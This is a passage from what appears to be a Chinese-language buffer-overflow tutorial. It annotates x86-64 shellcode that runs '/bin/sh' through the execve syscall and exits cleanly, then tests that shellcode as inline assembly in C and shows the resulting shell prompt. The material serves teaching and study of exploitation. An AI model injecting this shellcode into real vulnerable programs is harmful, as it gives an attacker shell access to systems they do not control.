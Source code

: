 ```asm
6.  mov $59, %rax
7.  mov %rbx, %rdi
8.  lea 0x8(%rsp), %rsi
9.  lea 0x10(%rsp), %rdx

        我们将参数传递给指定的寄存器

10. syscall

        使用syscall指令进行系统调用，这在x86 Linux中为int 0x80

11. mov $60, %rax
12. mov $0, %rdi
13. syscall

        为了使我们的shellcode在退出shell后正常退出，需要调用下exit系统调用，退出代码为0

14. mycall: call func

15. .string \"/bin/sh\"
```

它们的执行流程如下图所示：

{% img /images/缓冲区溢出7.jpg %}

现在，我们有了shellcode，我们先用C语言内联汇编的方式测试一下它是否能运行。

```C
shellcode_test.c
void main() {
    __asm__(
        "jmp mycall\n\t"
        "func: pop %rbx\n\t"
        "mov %rbx, 0x8(%rsp)\n\t"
        "movb $0x0, 0x7(%rsp)\n\t"
        "movl $0x0, 0x10(%rsp)\n\t"
        "mov $59, %rax\n\t"
        "mov %rbx, %rdi\n\t"
        "lea 0x8(%rsp), %rsi\n\t"
        "lea 0x10(%rsp), %rdx\n\t"
        "syscall\n\t"
        "mov $60, %rax\n\t"
        "mov $0, %rdi\n\t"
        "syscall\n\t"
        "mycall: call func\n\t"
        ".string \"/bin/sh\""
        );
}
```

试着编译运行一下：

```bash
$ gcc shellcode_test.c -o shellcode_test
$ ./shellcode_test 
sh-4.4# exit
exit
$
```
